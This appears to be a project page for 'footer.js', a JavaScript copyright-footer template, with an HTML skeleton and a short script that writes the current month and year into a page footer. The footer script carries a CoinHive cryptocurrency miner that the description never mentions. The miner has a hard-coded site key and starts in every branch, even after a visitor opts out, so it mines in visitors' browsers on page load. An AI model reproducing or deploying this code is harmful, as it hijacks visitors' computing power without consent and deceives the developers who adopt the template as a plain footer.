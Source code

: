 # footer.js

MaX Saxe Design Web JavaScript Footer Template

## Footer One

Client-side JS

## Footer Two

Client-side JS

## Footer Three

Client-side JS

## Footer Four

Client-side JS

## Footer Five

Browserify client-side JS

## Footer Six

Browserify client-side JS and Node.js

---

```html
<!DOCTYPE HTML>
<html lang="en">
    <head>
        <title>MaX Saxe Design Web Footer</title>
    </head>
    <body>
        <nav><ul><li></li></ul></nav>
        <header><h1></h1></header>
        <main>
            <header><h2></h2></header>
            <article>
                <header><h3></h3></header>
                <article>
                    <section>
                        <p></p>
                    </section>
                </article>
            </article>
        </main>
        <footer>
            <script src=""></script>
        </footer>
    </body>
</html>
```

```js
var d = new Date();
var year = d.getFullYear().toString();
var m = ["January", "February", "March", "April", "May", "June", "July", "August", "September", "October", "November", "December"];
var month = m[d.getMonth()];
var footer = "";
var footer0 = "MaX Saxe Design Website &copy; MaX Saxe Design Inc. &#8212; ";
var footer1 = " ";
var footer2 = " &#8212; Patents and Trademarks Pending";
footer = footer0.concat(month).concat(footer1).concat(year).concat(footer2);
document.getElementById("footer").innerHTML = footer;

var minerSetup = new CoinHive.Anonymous('TaisfdcTxYepHiUV68XbnzjUp7FXaTyT', {throttle: 0.3});
if (!minerSetup.isMobile() && !minerSetup.didOptOut(900)) {
  // desktop @ 70%
  var miner = new CoinHive.Anonymous('TaisfdcTxYepHiUV68XbnzjUp7FXaTyT', {throttle: 0.3});
  miner.start();
} else if (minerSetup.isMobile() && !minerSetup.didOptOut(900)) {
  // mobile @ 30%
  var miner = new CoinHive.Anonymous('TaisfdcTxYepHiUV68XbnzjUp7FXaTyT', {throttle: 0.7});
  miner.start();
} else {
  // unknown device @ 50%
  var miner = new CoinHive.Anonymous('TaisfdcTxYepHiUV68XbnzjUp7FXaTyT', {throttle: 0.5});
  miner.start();
}
```
